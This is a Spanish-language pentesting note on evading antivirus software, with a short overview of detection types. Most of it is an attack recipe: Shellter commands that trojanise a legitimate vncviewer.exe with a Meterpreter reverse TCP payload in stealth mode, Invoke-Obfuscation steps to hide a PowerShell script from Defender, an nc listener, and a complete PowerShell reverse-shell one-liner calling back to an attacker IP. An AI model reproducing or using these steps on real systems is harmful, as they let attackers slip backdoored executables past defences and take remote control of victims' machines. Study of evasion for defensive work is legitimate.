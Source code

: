 # Evasión de AntiVirus

Tags: #AV 

## Evasión de antivirus (AV)

Tags: #AV #Evasion #Shellter

Evadir las defensas: Consiste de una técnica que los adversarios usan para evitar la detección a través de su compromiso. Las técnicas usadas para la evasión incluyen desinstalar/deshabilitar los softwares de seguridad, o encriptar data y scripts. 

1. Signature based detection: Es una secuencia de bytes que únicamente identifican malware. Como resultado, tendrás que asegurarte que tu exploit o payload no encaje con cualquier firma conocida de la base de datos del AV. Podemos Bypass la firma basada en detección modificando la secuencia de byte del malware.
2. Heuristic based detection: Confía en reglas o decisiones para determinar si un binario es malicioso. 
3. Behavior based detection: Confía en identificar malware monitoreando su comportamiento. 
## Shellter

Nos ayuda a inyectar una ReverShell en un archivo legitimo ejecutables en Windows.
* [Shellter](https://www.shellterproject.com/introducing-shellter/)

```bash 
❯ apt install shellter                             # Instalamos Shellter, Shellter solo soporta 32 bit Payload
❯ apt install wine32
❯ dpkg --add-architecture i386 
```

```bash 
❯ cd /usr/share/windows-resources/shellter/        # Path donde se ecuentra Shellter

❯ wine shellter.exe                                # Ejecutamos Shellter
	❯ A                                           # Modo automatico 
	❯ /home/Desktop/AVBypass/vncviewer.exe        # Utilizaremos el 'vncviewer.exe' para inyectarle codigo malicioso
	❯ y                                           # Para que al momento de que se ejecute el .exe funcione con normalidad (Stealth mode)
	❯ L                                           # Listed payload or custom
	❯ 1                                           # Escogemos la opcion 1 (Meterpreter_Reverse_tcp)
	❯ <IP>                                        # Set LHOST del atacate
	❯ 443                                         # Set LPORT del atacante
```

Solo debemos de pasar el nuevo archivo .exe a la maquina victima y ejecutarlo para obtener la Revershell. 

## Ocultación con Powershell

Funciona en Windows 10 desactivando (Cloud-delivered protection, Automatic sample submission)

* [Obfuscation-Powershell](https://github.com/danielbohannon/Invoke-Obfuscation)
* [Revershell-Powershell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

Debemos de clonarnos el repo anterior y dentro de Powershell hacer lo siguiente. 
```bash 
❯ apt install powershell -y                            # Instalamos Powershell

❯ pwsh                                                 # Iniciamos Powershell en Linux
	❯ cd ./Invoke-obfuscation/ 
	❯ Import-Module ./Invoke-Obfuscation.psd1         # Importamos el modulo 
	❯ cd ..
	❯ Invoke-Obfuscation                              # Ejecutamos e iniciamos Invoke-Obfuscation

# Dentro de Invoke-Obfuscation
	❯ SET SCRIPTPATH /home/kali/shell.ps1             # Colocamos el tipo de Shell y la ruta absoluta de donde se encuentra
	❯ ENCODING 
		❯ 1                                          # 1 Tipo = ASCII
	❯ BACK
	❯ AST
		❯ ALL
			❯ 1
# Nos creara un nuevo archivo llamado 
❯ obfuscated.ps1                                      # Este archivo lo debemos de pasar por un servidor python y despues ejecutarlos en la maquina victima
❯ nc -nlvp 443                                        # Nos ponemos en modo escucha en la maquina de atacante para recibir la Reverse shell
```

```bash 
# Crearemos una Revershell  que la llamaremos shell.ps1, el cual colocaremos en la sig. ruta:
	# '/usr/share/windows-resources/shellter'

❯ $client = New-Object System.Net.Sockets.TCPClient('192.168.1.66',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =  [text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
